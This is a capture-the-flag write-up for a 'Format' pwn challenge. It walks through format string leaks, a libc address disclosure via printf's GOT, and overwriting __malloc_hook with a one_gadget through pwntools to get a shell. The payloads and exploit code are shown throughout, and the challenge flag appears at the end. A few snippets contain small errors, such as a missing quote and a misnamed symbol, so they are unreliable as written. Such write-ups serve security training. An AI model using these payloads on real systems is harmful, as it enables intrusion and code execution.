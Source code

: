 # Format

## Solution

Initial binary check!

```
cmd: checksec --file=format

Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled

--------------------------------------------------
cmd: file format

format: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5d38e04d29b4aae722164869f3151cea776ce91c, for GNU/Linux 3.2.0, not stripped
```

By the name of the challenge this is a format string vuln (without decompiling and analysis)<br>

To experiment lets send
```
input: WWWW.%x.%x.%x.%x.%x.%x.%x.%x
Output: WWWW.14189a03.0.140b9f4e.6317f610.0.57575757.252e7825.2e78252e
```

So i can access and modify whatever address i source by using the stack position 6 

```
input: WWWW.%6$x
output: WWWW.57575757
```

After decompilation we have a function (<b> echo() </b>) with the following code (decompilation using ghidra):
```
long in_FS_OFFSET;
char local_118 [264];
undefined8 local_10;

local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
do {
    fgets(local_118,0x100,stdin);
    printf(local_118);
} while( true );

```

Having in consideration the binary security and the code from ghidra, the most common format string attacks will not work (change ret, change fgets PLT/GOT, etc..) <br>

After further research, i found out that malloc (and consequently, free) is used when the string sent to the printf is above a determined size <br>

With this, and with the format string vulnerability, the hooks for those functions can be overwritten and thus redirect the execution to a given address (in this case, system function or a one_gadget that spawns shell) <br> 

Before proceeding to the libc leak, more information is needed <br>

Since the program is compiled with PIE, we need to find in the stack the base address in which the program is loaded to then leak the libc printf through the GOT pointer ! <br>


To achieve this, use the binary and dump the content for a range
```
def nonStopLeak():
	data = []
	min_val = 1
	max_val = 40
	log.progress("Starting nonStopLeaking (range: %d to %d)..." % (min_val, max_val))
	data.append("EMPTY ON PURPOSE")
	for i in range(min_val,max_val):
		leak = "%{}$lx".format(i)
		leak = com(leak).strip().decode()
		data.append(leak)
	log.success("nonStopLeaking finalized...")
	return data
```

To better visualize what the value might be, use GDB to x/s values that are in the stack. The values are easy to analyze if each long word is considered a position (which it is, in fact)
```
x/100gx $rsp
```

I found 2 positions (34 and 37) but in the remote, the 34th position is empty contrary to the local memory ! <br> With GDB, we must calculate the offset from the address in memory to the loading address of the elf (visible through vmmap or info proc map)
```
gdb_offset = address_in_memory - elf_loaded_address  (0x126d)
elf.address = leaked_address - gdb_offset
```

After this, we need to inject the printf.got address (from the elf) in the stack! <br>

To disclose the value which the printf.got points to, the format string used must be %s because it is the same machanism as when working with buffers (it will print what the address sourced to it, points to) instead of showing the address in the position (as %lx, %x and %p does ) <br>


Special attention is needed (in this case) because the elf.got["printf"] contains 2 null terminators which are not an issue to the fgets (to store the content) but will make printf stop (they are also in the beginning so, printf would not print the address) <br>

To mitigate this, instead of the traditional format string approach (where payload is inserted into the stack and the format position is accessed) the used one is in the reverse order (payload after the format string). Also, the 2 null bytes count as an index (which the format string can access) <br>

Another important aspect is the stack alignment. That's the reason the payload consists of 10 A's instead of 8 (64-bit word). <br>

The payload consists of
```
printf_got = elf.got["printf]
payload = b"AAAAAAAAAA%8$s: " + p64(printf_got)

printf_leak = response
```

With that leak, we can access https://libc.blukat.me/ and find out which libc version is the server running. Leaked libc possibilities:
```
libc6-amd64_2.27-3ubuntu1_i386 (32 bits, ignore)
libc6-i386_2.19-0ubuntu6_amd64 (32 bits, ignore)
libc6-i386_2.9-4ubuntu6.3_amd64 (32 bits, ignore)
libc6_2.27-3ubuntu1_amd64
```

Now that we have a libc and one address of it, we can calculate its base address and consequently extract the values for the hook that we want to overwrite!
```
libc = ELF("libc6_2.27-3ubuntu1_amd64")
libc.address = printf_leak - libc.symbols["printf"]
__malloc_hook_addr = libc.symbols["__malloc_hook_addr"]
```

After that we need the offsets for the gadgets (https://github.com/david942j/one_gadget)
```
cmd: one_gadget libc6_2.27-3ubuntu1_amd64

0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

With the gadgets' offsets, we need to calculate the actual value they have in the server memory 
```
gadget_addr = libc.address + gadget_value
```

Now need to generate the payload to overwrite the __malloc_hook_addr ! <br>
To generate the payload i used the pwntools functionality <b> FmtStr() </b>
```
fmtstr_payload(exploiter.offset, {__malloc_hook_addr : gadget_addr})
```

After modifying the hook, just need to trigger it

```
payload = '%100000c'
```

And voila, we got a shell !!!
```
cmd: whoami && id
ctf
uid=999(ctf) gid=999(ctf) groups=999(ctf)

cmd: cat flag.txt
HTB{mall0c_h00k_f0r_th3_w1n!}
```

## FLAG: HTB{mall0c_h00k_f0r_th3_w1n!}